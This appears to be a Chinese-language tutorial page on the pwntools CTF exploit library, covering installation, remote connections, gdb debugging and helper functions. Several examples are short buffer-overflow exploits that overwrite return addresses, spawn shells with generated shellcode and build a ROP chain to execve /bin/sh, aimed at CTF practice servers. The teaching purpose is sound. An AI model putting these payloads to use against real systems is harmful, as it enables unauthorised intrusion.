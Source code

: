 # pwntools

Pwntools 是一个CTF框架和漏洞利用开发库，使用Python编写，专为快速原型设计和开发而设计，旨在使漏洞利用编写尽可能简单。  

github地址: https://github.com/Gallopsled/pwntools  
官方文档: http://docs.pwntools.com/  


## 安装
建议的系统：  
```r
64-bit Ubuntu LTS releases (14.04, 16.04, 18.04, and 20.04)
```

安装命令：  
```r
sudo apt-get update
sudo apt-get install python3 python3-pip python3-dev git libssl-dev libffi-dev build-essential
python3 -m pip install --upgrade pip
python3 -m pip install --upgrade pwntools
```


## 使用
官方说明例子：  
```python
from pwn import *
context(arch = 'i386', os = 'linux')

r = remote('exploitme.example.com', 31337)
# EXPLOIT CODE GOES HERE
r.send(asm(shellcraft.sh()))
r.interactive()
```

例子2：  
```python
from pwn import *

pwn = remote('118.193.194.73',10000)

#  sh = process('/bin/sh') # 本地调试

pwn.recvuntil('let\'s begin!\n')

payload = ''
payload += 'a'*112
payload += p32(0x0804865D)

pwn.sendline(payload)

pwn.interactive()
```

例子3：  
```python
# remote.py
"""
Example showing how to use the remote class.
"""

from pwn import *   # 也可以直接   import pwn

sock = remote('127.0.0.1', 9001)     # 连接远程服务

print sock.recvline()           #  接收一行
sock.recvuntil("hello")          # 直到接收到某字符串
sock.recv()          # 接收就对了
sock.send('foo')                 #  发送消息
sock.interactive()               #  进入交互模式
```

例子4：  
```python
# coding:utf8

from pwn import *

conn = remote('pwnable.kr',9000)
#conn = process("./bof")                   # 这样可以本地调试

payload = 'a'*52 + p32(0xcafebabe)    

conn.sendline(payload)
conn.interactive()
```


## 一些点

### 附加gdb调试
http://docs.pwntools.com/en/stable/gdb.html#member-documentation  
如果执行脚本参数有'G'，就附加gdb，进行调试  
```r
if args.G:
    gdb.attach(conn, 'b * 0x0804868F')
```

一个附加调试脚本示例：  
```python
# Start a process
bash = process('bash')

# Attach the debugger
gdb.attach(bash, '''
set follow-fork-mode child
break execve
continue
''')

# Interact with the process
bash.sendline('whoami')
```

### 区分本地调试或远程利用
如果执行脚本参数有"REMOTE"，进行远程利用，否则本地调试  
```python
if args['REMOTE']:
    io = remote('exploitme.com', 4141)
else:
    io = process('./pwnable')
```

### 接收某数据后发送
```python
conn.sendafter('Hello', payload)  # 接收到"Hello"之后就发送
conn.sendlineafter('Hello', Payload)  # 会带回车
```

### 汇编反汇编
```python
asm('mov eax, 0')
disasm('\xb8\x00\x00\x00\x00')
```

### 生成shellcode
```python
asm(shellcraft.sh())
```

### 数据互转
```python
# 将数字地址转成64位小端数据
p64(0x12345678)
# 将小端数据转为数字地址，举一反三 32/16/8
u64()
```

### 设置合适的参数
```python
context.binary = './challenge-binary'
```

### 生成ELF对象，方便查看各种表的信息
```python
ELF('./challenge-binary')
```

### 获取函数地址
```python
get_shell = ELF('./challenge-binary').sym['getshell']
# sym是symbols的别名，所以 .symbols是全称
```

### 组合元素
默认是4个字节的小段序，可以设置  
```python
flat(['a' * 0x70, pop_eax_ret_addr, 0xb, pop_edx_ecx_ebx_ret_addr, 0, 0, bin_sh_addr, int_addr])
```

### 接收数据换行问题
对于recvuntil、sendlineafter这样的需要接收到指定数据再执行后续操作的函数，  
如果想接收的数据没有换行，可能会因为接收不到数据而卡死  
如: https://github.com/ctfs/write-ups-2014/tree/master/hack-lu-ctf-2014/oreo  


---
2017/9/2  
